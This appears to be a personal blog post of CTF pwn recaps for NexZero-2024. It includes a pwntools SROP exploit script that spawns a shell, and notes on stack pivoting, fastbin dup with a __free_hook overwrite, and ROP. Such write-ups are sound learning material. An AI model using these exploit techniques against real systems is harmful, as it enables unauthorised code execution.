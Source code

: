 ```yaml
---
title: Pwn Recaps
published: 2025-04-25
description: 'pwn notes related to ctfs'
image: ''
tags: [pwn]
category: 'Writups'
draft: false 
lang: ''
---
```


# NexZero-2024
## calls
- small binary, there is no pop gadgets, the trick is to find the hidden `/bin/sh` string using strings cmd
- use read syscall as a `pop rax` gadget then do srop
<details>
  <summary>payload</summary>

```python
from pwn import *

elf = context.binary = ELF("chall")
p = process()


SYSCALL = 0x0000000000401019
frame = SigreturnFrame()
frame.rax = 0x3b               # syscall number for execve
frame.rdi = 0x40200f           # pointer to /bin/sh
frame.rsi = 0x0                # NULL
frame.rdx = 0x0                # NULL
frame.rip = 0x0000000000401019

# gdb.attach(p,"b *0x0000000000401037")
p.sendline(cyclic(32) + p64(0x000000000040101f) + cyclic(32) + p64(SYSCALL) + bytes(frame))
input()
p.send(b"A" * 15)

p.interactive()

# nexus{b33p_b00p_s1GnAl_f0R_The_win}
```
</details>

## cramped
- a buffer overflow challenge, we can controle the `rbp` and the `return address`
- there is a win function with check for params, we can just jump passed that and if we set `rbp` to point to a r/w section aka `bss` we get the flag
## doubles
- standard fastbin dup chall from pwn.college
- use after free in the free function, and a global array with no pie
- just get a write in the global array, make a entry point to `__free_hook` overwrite it with `system`, and call free with `/bin/sh`
## filter
- standard filter challenge with seccomp, just open read write
## monGOal
- first time seeing a binary packed with upx, and also first time doing a go challenge
- other then this, its a simple rop to systell challenge, and uses `xchg` which is neet  

:::hide
asd
:::